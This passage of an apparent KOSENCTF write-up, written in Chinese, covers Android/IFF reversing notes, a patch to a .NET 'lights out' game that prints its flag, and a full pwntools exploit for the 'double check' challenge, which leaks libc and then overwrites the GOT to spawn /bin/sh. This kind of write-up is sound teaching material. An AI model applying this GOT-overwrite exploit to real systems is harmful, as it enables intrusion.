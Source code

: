   - [教學2](http://wossoneri.github.io/2019/09/12/[Android][Security]Decompile-smali/#toc-heading-4)
- Interchange File Format (IFF)
  - in order to facilitate transfer of data between software produced by different companies
  - The top-level structure of an IFF file consists of exactly one of the group chunks: FORM, LIST or CAT , where FORM is by far the most common one
  - libyoyo.so 運行時會在 `RunnerLoadGame()` 使用到 iff `game.droid` 並取得其資料，之後的執行流程為: ` DoTheWork() -> Run_Start()`，過程中不確定那些資料到底做了什麼

### lights out

為 .NET 寫的遊戲，目標是讓全部的格子都是亮的，不過因為有被 obfuscate 過，因此用 dnSpy 修都會編譯不過，這邊使用 IDA 來改，把一開始初始化的地方改成全部都是亮的，之後程式在做判斷時會檢查是不是都是亮的，如果是的話就會噴 flag `KOSENCTF{st4tic4lly_d3obfusc4t3_OR_dyn4mic4lly_ch34t}`。

其他解法如直接用 cheat engine 動態調整格子的顏色，或是直接靜態分析到產生 flag 的地方，直接用 python script 解出 flag。

## Pwn

### double check

```
// file
auth: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e687e6be8ff2e812431014cd77c446b65f32b3d8, not stripped

// checksec
[*] '/tmp/tmp/challenges/double_check/build/double_check/auth'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- stack overflow `%s`
- 用 `printf_plt` + `alarm_got` leak libc
- 蓋 `strncmp_got` 成 `system()`、蓋 `password` 成  `/bin/sh`、利用 `strncmp(password)` get shell

exploit:

```python
#!/usr/bin/python3

from pwn import *
 
context.arch = 'i386'
 
r = process('./auth')
 
printf_plt = 0x80484b0
alarm_got = 0x0804a018
_main = 0x8048789
_read = 0x080487D9
offset = 0x28+4
strncmp_got = 0x0804a03c
 
r.sendlineafter("Password: ", offset*b'\xff' + p32(printf_plt) + p32(_read) + p32(alarm_got) + p32(strncmp_got))
r.recvuntil("Invalid password.\n")
libc = u32(r.recv(4)) - 0xcd180
info(f"libc: {hex(libc)}")
_system = libc + 0x45830
payload = p32(_system).ljust(0x44, b'\xff') + b"/bin/sh\x00"
r.sendline(payload)
 
r.interactive()
```